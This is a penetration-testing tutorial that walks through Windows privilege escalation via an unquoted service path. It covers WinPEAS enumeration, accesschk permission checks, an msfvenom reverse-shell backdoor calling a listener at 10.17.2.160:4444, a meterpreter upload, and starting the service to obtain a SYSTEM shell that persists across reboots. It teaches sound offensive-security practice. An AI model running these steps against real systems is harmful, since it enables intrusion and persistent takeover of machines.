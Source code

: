 :orphan:
(privilege-escalation-techniques-windows-unquoted-service-path)=
# Privilege Escalation Techniques Windows Unquoted Service Path
 
The second stage of system hacking involves escalating privileges. Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Microsoft Windows services allow you to write long-running executables that operate in their own Windows sessions. These services can be started automatically when the computer boots, is paused, or restarted, and does not have a user interface. In this article, we will exploit the Unquoted service path technique to increase our privilege from low-level user to `NT-Authority/System` user. 

## Unquoted service path 

**Mitre ID:** T1574.009

**Tactics:** Privilege Escalation & Persistence

**Platforms:** Windows

Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher-level directory within the path so that Windows will choose the adversary's executable to launch.
`Source: https://attack.mitre.org/techniques/T1574/009/`

If the path to the service binary is not enclosed in quotes and contains white spaces, leads to a vulnerability known as an unquoted service path which allows the user to gain `SYSTEM` privileges.


For example, This service uses the unquoted path: `C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe`

To run the unquotespathservice.exe, the system will read this path in the following order. 
`C:\Program.exe`
`C:\Program Files\Unquoted.exe`
`C:\Program Files\Unquoted Path Service\Common.exe`
`C:\Program Files\Unquoted Path Service\Common Files`
`C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe
`
The service would treat the space as a break and pass the remaining portion of the service path as an argument if it were not enclosed in quotes and contained spaces.

This demonstration assumes that you have gotten a low privileged shell either through netcat or a meterpreter session, etc. 

![unsp_1](images/unsp_1.png)

To search for the unquoted service paths, use the `WinPEAS` script. `WinPEAS` is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe `

`winPEASx64.exe quiet servicesinfo`

![unsp_2](images/unsp_2.png)

By scrolling down for more results.

![unsp_3](images/unsp_3.png)

Winpeas script has found a service named unquotedsvc, which has an unquoted service path.

To escalate the privileges, we need this service to run with system privileges because if the service runs with privileges that are not elevated then we will not get elevated privileges.

Use the sc command to query the configuration of the service. The Service Control `(sc)`  command is used to **Create, Start, Stop, Query, or Delete any Windows SERVICE.** The command options for SC are case-sensitive. 

`sc qc unquotedsvc `

![unsp_4](images/unsp_4.png)

From the above screenshot, this command will provide a full binary path of the service ie `BINARY_PATH_NAME` and the `SERVICE_START_NAME` is Localsystem which means it starts or is executed with the `NT-Authority system` privileges. 

Now use the accesschk.exe tool to identify the current user permissions or check whether the `BUILTIN\User` group is allowed to write to the `C:\Program Files\Unquoted Path Service\` 
`AccessChk` is a console program. `AccessChk` allows administrators to see what kind of access specific users or groups have to resources, including files, directories, Registry keys, global objects, and Windows services.

The following command can be used to check the permissions for  `C:\Program Files\Unquoted Path Service\ `

`accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

![unsp_5](images/unsp_5.png)

From the screenshot, Read and Write permission is given to `BUILTIN\Users`. That means we can essentially place our malicious executable within these directories and receive a reverse connection. 

It’s time to exploit the weak configured services against unquoted paths by creating a backdoor file named Common.exe using msfvenom. 
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=4444 -f exe -o Common.exe `

![unsp_6](images/unsp_6.png)

After the file is created, navigate to the “`C:\Program Files\Unquoted Path Service`” folder and use the upload functionality of the meterpreter to upload the backdoor created. 

![unsp_7](images/unsp_7.png)

from the meterpreter session, switch to cmd by typing the shell command in the meterperter. Use the net start command to the service ie `unquotedsvc.` The net start command is used to start a network or list the running network services. 
`net start unquotedsvc 
`

![unsp_8](images/unsp_8.png)

As soon as the service will launch, the attacker will get a reverse connection in the new netcat session as `NT Authority \system` 

![unsp_9](images/unsp_9.png)

Escalation of privilege to the NT authority system is successful. This method will automatically restart the `Common.exe`, which will once more provide a reverse connection, even if the user restarts the system. To mitigate this attack always make sure to enclose the path for any services that have a space in quotes. 

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**